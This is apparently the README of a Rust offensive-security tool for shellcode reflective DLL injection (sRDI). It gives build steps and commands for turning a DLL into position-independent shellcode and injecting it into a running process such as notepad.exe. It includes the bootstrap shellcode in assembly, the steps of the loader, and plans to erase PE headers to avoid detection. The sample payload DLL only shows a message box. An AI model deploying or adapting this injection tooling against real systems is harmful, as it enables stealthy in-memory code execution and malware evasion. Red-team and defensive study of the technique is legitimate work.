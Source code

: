# Shellcode Reflective DLL Injection (sRDI)

## Description

Shellcode reflective DLL injection (sRDI) is a process injection technique that allows us to convert a given DLL into a position-independent shellcode which can then be injected using our favorite shellcode injection and execution technique.

## Install Rust

https://www.rust-lang.org/tools/install


## Install cargo-make

```
cargo install --force cargo-make
```

## Usage

1). Build all of the projects using `cargo-make`.

```
cargo make --profile production
```

2). Generate the shellcode.
```
generate_shellcode.exe <reflective loader dll path> <user dll path> <user function> <user data> <shellcode outfile path>
```

3). Use `inject` or bring your own injector and inject the position-independent shellcode with your favorite injection and execution technique.

```
inject.exe <process> <shellcode.bin>
```

## Example

```
cargo make --profile production
generate_shellcode.exe reflective_loader.dll testdll.dll SayHello memN0ps shellcode.bin
inject.exe notepad.exe shellcode.bin
```


# Details

## Test DLL

This is the payload that will be executed by the reflective loader. Both the `DllMain` and `SayHello` functions will be called.

[Why?](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)

*"The assumption of reflective DLL injection is that calling the entry point of the DLL is sufficient to execute the full functionality of the DLL. However, this is often not the case. In fact, [Microsoft advises](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-best-practices) developers to minimize the amount of work done in `DllMain`, and to do “lazy initialization”, avoiding loading additional libraries or creating new threads. The main entry point then, would be in another function that would be called separately after the DLL was loaded."* - Dan Staples

```rust
#[no_mangle]
#[allow(non_snake_case)]
pub unsafe extern "system" fn DllMain(
    _module: HINSTANCE,
    call_reason: u32,
    _reserved: *mut c_void,
) -> BOOL {
    if call_reason == DLL_PROCESS_ATTACH {
        MessageBoxA(
            0 as _,
            "Rust DLL injected!\0".as_ptr() as _,
            "Rust DLL\0".as_ptr() as _,
            0x0,
        );

        1
    } else {
        1
    }
}

#[no_mangle]
#[allow(non_snake_case)]
fn SayHello(user_data: *mut c_void, user_data_len: u32) {
    let user_data_slice =
        unsafe { core::slice::from_raw_parts(user_data as *const u8, user_data_len as _) };
    let user_data = std::str::from_utf8(user_data_slice).unwrap();
    let message = format!("Hello from {}", user_data);

    unsafe {
        MessageBoxA(
            0 as _,
            message.as_ptr() as _,
            "SayHello!\0".as_ptr() as _,
            0x0,
        );
    }
}
```

## Reflective Loader

The reflective loader emulates `LoadLibraryA`:

Step 1) Load required modules and exports by hash

Step 2) Allocate memory and copy sections and headers into the newly allocated memory (`VirtualAlloc` uses `RW` not `RWX`)

Step 3) Process image relocations (rebase image)

Step 4) Process image import table (resolve imports)

Step 5) Set protection for each section (`VirtualProtect` changes memory protection for each section)

Step 6) Execute DllMain

Step 7) Execute USER_FUNCTION

Step 8) Free memory (new module base memory from `VirtualAlloc` is freed using `VirtualFree`) and exit thread (TODO)


## Generate Position Independent Shellcode

The `generate_shellcode` project will generate shellcode and output a file that looks like this in memory:

[![sRDI](./sRDI.png)](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/)

This is the bootstrap shellcode that does the magic by passing the parameters and calling the reflective loader:

```asm
call 0x00
pop rcx
mov r8, rcx

push rsi
mov rsi, rsp
and rsp, 0x0FFFFFFFFFFFFFFF0
sub rsp, 0x30

mov qword ptr [rsp + 0x20], rcx
sub qword ptr [rsp + 0x20], 0x5

mov dword ptr [rsp + 0x28], <flags>

mov r9, <length of user data>
add r8, <user function offset> + <length of DLL>
mov edx, <hash of function>
add rcx, <offset of dll>

call <reflective loader address>

nop
nop

mov rsp, rsi
pop rsi
ret

nop
nop
```

[Why?](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)

*"The reason we need the bootstrap shellcode is due to the limited amount of data we’re able to pass to the reflective loader with Stephen Fewer’s original reflective DLL injection technique."* - Dan Staples

*"Since Fewer’s reflective DLL injection technique passes the address of the reflective loader to `CreateRemoteThread` as the `lpStartAddress` parameter, it’s only able to pass a single void pointer."* - Dan Staples

*"But if we want our reflective loader to call an additional export after loading the DLL, we’ll need to give it more information! We’ll do this by passing additional parameters to the reflective loader function using some bootstrap shellcode."* - Dan Staples


The new declaration of our reflective loader function will be:

```rust
#[no_mangle]
pub extern "system" fn reflective_loader(
    image_bytes: *mut c_void,    // testdll base address
    user_function_hash: u32,     // SayHello hash 
    user_data: *mut c_void,      // memN0ps
    user_data_length: u32,       // 7
    _shellcode_base: *mut c_void,// bootstrap shellcode base address
    flags: u32,                  // 0x2
)
```

## TODO

* Stomp / erase DOS and NT headers
* Free `bootstrap shellcode / RDI / testdll / user data` memory and exit thread. Note that newly allocated memory (`VirtualAlloc` using `RW`) is already being freed at the end of RDI using `VirtualFree`. (The rest can be done by the user, if needed).
* x86 support (mostly already done)

## References and Credits

* https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/
* https://github.com/monoxgas/sRDI
* https://github.com/stephenfewer/ReflectiveDLLInjection/
* https://discord.com/invite/rust-lang-community (Rust Community #windows-dev channel)
* https://github.com/dismantl/ImprovedReflectiveDLLInjection
* https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html
* https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/
* https://github.com/Cracked5pider/KaynLdr
* https://github.com/Ben-Lichtman/reloader/
* https://github.com/not-matthias/mmap/
* https://github.com/memN0ps/mmapper-rs
* https://github.com/2vg/blackcat-rs/tree/master/crate/mini-sRDI
* https://github.com/Jaxii/idk-rs/
* https://github.com/janoglezcampos/rust_syscalls/